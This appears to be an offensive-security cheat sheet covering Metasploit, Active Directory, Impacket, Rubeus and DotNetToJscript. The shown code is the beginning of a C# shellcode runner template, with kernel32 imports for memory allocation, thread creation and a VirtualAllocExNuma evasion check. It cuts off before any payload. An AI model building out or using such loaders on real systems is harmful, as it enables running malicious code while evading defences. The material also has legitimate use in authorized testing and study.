 <br>

# [MetaSploit](#Metasploit-1)
- [Msfvenom](#Msfvenom)
- [Metasploit_Refs](#Metasploit_Refs)

<br>

# [Active_Directory](#Active_Directory-1)

# [Linux](#Linux-1)

# [Impacket](#Impacket-1)

# [TortugaToolKit](#TortugaToolKit-1)

# [PowerUpSQL](#PowerUpSQL-1)

# [Rubeus](#Rubeus-1)

# [Tools](#Tools-1)

***
# DotNetToJscript
<br>

## Testclass

- Replace testclass.cs with following code and replace shellcode

```csharp
using System;
using System.Runtime.InteropServices;

namespace ClassLibrary1
{
    public class Class1
    {


        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);
```
